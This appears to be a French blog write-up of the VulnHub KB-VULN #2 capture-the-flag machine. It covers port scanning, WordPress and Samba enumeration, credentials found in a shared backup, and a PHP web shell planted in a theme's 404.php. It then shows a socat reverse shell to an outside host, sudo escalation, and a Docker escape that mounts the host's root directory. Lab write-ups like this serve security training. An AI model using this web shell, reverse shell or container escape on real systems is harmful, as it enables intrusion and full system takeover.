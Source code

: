 # Solution du CTF KB-VULN #2 de VulnHub

2 Rapides
---------

Voici donc [la suite](https://www.vulnhub.com/entry/kb-vuln-2,562/) du précédent CTF de la série.  

Un scan de port remonte du Samba et du Apache :  

```plain
Nmap scan report for 192.168.56.6
Host is up (0.00032s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:99:01:23:fe:c4:84:ef:14:55:87:da:a3:30:6f:50 (RSA)
|   256 cb:8e:e1:b3:3a:6e:64:9e:0f:53:39:7e:18:9d:8b:3f (ECDSA)
|_  256 ec:3b:d9:53:4a:5a:f7:32:f2:3a:f7:a7:6f:31:87:52 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 08:00:27:03:F4:A4 (Oracle VirtualBox virtual NIC)
Service Info: Host: UBUNTU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: UBUNTU, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2021-12-07T12:23:16
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: kb-server
|   NetBIOS computer name: UBUNTU\x00
|   Domain name: \x00
|   FQDN: kb-server
```

Sur le serveur web on trouve via énumération des dossiers un wordpress installé. Le module *wp\_enum* de *Wapiti* détecte quelques plugins et thèmes mais rien de critique :  

```plain
[*] Lancement du module wp_enum
Enumération des extensions WordPress :
akismet 4.1.6 détecté
----
Enumération des thèmes WordPress :
twentytwenty 1.5 détecté
twentyseventeen  détecté
twentynineteen 1.7 détecté
```

Avec l'aide de *wpscan* j'obtiens la version du Wordpress :  

```plain
[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.56.6/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.56.6/wordpress/, Match: 'WordPress 5.5.1'
```

Là encore rien de critique. Direction Samba sur lequel on trouve un disque partagé avec une archive zip :  

```bash
$ smbclient  -U "" -N -L //192.168.56.6

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      OPEN YOUR EYES!
        IPC$            IPC       IPC Service (Samba Server 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available

$ smbclient  -U "" -N //192.168.56.6/Anonymous
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 17 12:58:56 2020
  ..                                  D        0  Wed Sep 16 12:36:09 2020
  backup.zip                          N 16735117  Thu Sep 17 12:58:56 2020

                14380040 blocks of size 1024. 8346256 blocks available
smb: \> lcd /tmp
smb: \> get backup.zip
getting file \backup.zip of size 16735117 as backup.zip (80905,3 KiloBytes/sec) (average 80905,4 KiloBytes/sec)
```

A l'intérieur on trouve entre autres un fichier *remember\_me.txt* avec le contenu suivant :  

```plain
Username:admin
Password:MachineBoy141
```

Il y a aussi les identifiants de base de données dans la configuration du Wordpress :  

```php
define( 'DB_NAME', 'wordpress_db' );                                                                                   

/** MySQL database username */                                                                                         
define( 'DB_USER', 'kb_vuln' );                                                                                        

/** MySQL database password */                                                                                         
define( 'DB_PASSWORD', 'hellelujah' );
```

Le mot de passe *MachineBoy141* ne permet pas un accès sur SSH / SMB mais permet d'accéder à la zone d'administration du Wordpress.  

La technique habituelle consiste à éditer un fichier PHP via l'interface de Wordpress. On peut éditer les fichiers des thèmes installés mais tous ne permettent pas la modification (en raison des permissions sur les fichiers).  

Finalement j'ai édité le fichier *wp-content/themes/twentynineteen/404.php* pour y mettre le code suivant au début :  

```php
if (isset($_GET["cmd"])) { echo "<pre>"; system($_GET["cmd"]); echo "</pre>"; }
```

2 Furieux
---------

D'après les interfaces réseau on est dans un Docker :  

```plain
3: docker0:  mtu 1500 qdisc noqueue state DOWN group default 
 link/ether 02:42:21:e3:e8:8c brd ff:ff:ff:ff:ff:ff
 inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
 valid\_lft forever preferred\_lft forever
```

*socat* est présent alors j'en profite pour récupérer un reverse shell avec PTY.  

Côté attaquant : 
```bash
socat file:`tty`,raw,echo=0 TCP-L:4242
```

Côté victime : 
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

En réutilisant les identifiants SQL je fouille dans le serveur MySQL local mais je ne trouve rien d'intéressant.  

Il y a un utilisateur *kbadmin* sur la machine et il utilise le même mot de passe que le Wordpress (*MachineBoy141*) on peut accéder au compte via la commande *su*.  

On peut se connecter aussi directement via SSH mais le service est dans le container donc aucun gain.  

L'utilisateur a des autorisations *sudo* pour passer root :  

```plain
kbadmin@kb-server:/$ sudo -l
[sudo] password for kbadmin: 
Matching Defaults entries for kbadmin on kb-server:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kbadmin may run the following commands on kb-server:
    (ALL : ALL) ALL

root@kb-server:~# cat flag.txt 
dc387b4cf1a4143f562dd1bdb3790ff1
```

Toutefois on est toujours dans le container, il est temps de s'échapper. Là encore on va employer une technique classique d'escalade de privilèges via Docker consistant à monter le disque de l'hôte dans le container.  

[Voir ici](https://www.trendmicro.com/en_us/research/19/l/why-running-a-privileged-container-in-docker-is-a-bad-idea.html) pour plus d'informations sur les risques de lancer un container Docker avec privilèges.  

Mon problème est que la VM n'a pas d'accès Internet, je ne peux donc pas faire un simple Docker pull. A la place je vais créer une archive d'une image Alpine Linux pour la copier ensuite dans la VM.  

```bash
$ docker pull alpine
Using default tag: latest
latest: Pulling from library/alpine
59bf1c3509f3: Pull complete 
Digest: sha256:21a3deaa0d32a8057914f36584b5288d2e5ecc984380bc0118285c70fa8c9300
Status: Downloaded newer image for alpine:latest
docker.io/library/alpine:latest

$ docker images -a
REPOSITORY          TAG       IMAGE ID       CREATED        SIZE
alpine              latest    c059bfaa849c   12 days ago    5.58MB

$ docker save --output alpine.tar c059bfaa849c
```

Ensuite je charge l'image et l'exécute en montant le */root* de l'hôte :  

```bash
kbadmin@kb-server:~$ docker load --input alpine.tar
8d3ac3489996: Loading layer [==================================================>]  5.866MB/5.866MB
Loaded image ID: sha256:c059bfaa849c4d8e4aecaeb3a10c2d9b3d85f5165c66ad3a4d937758128c4d18

kbadmin@kb-server:~$ docker run -it -v /root:/real_root sha256:c059bfaa849c4d8e4aecaeb3a10c2d9b3d85f5165c66ad3a4d937758128c4d18
/ # ls /
bin        dev        etc        home       lib        media      mnt        opt        proc       real_root  root       run        sbin       srv        sys        tmp        usr        var
/ # ls /real_root/
flag.txt
/ # cd /real_root/
/real_root # cat flag.txt 
dc387b4cf1a4143f562dd1bdb3790ff1
```

Evalal'travail !  


*Published December 08 2021 at 12 07*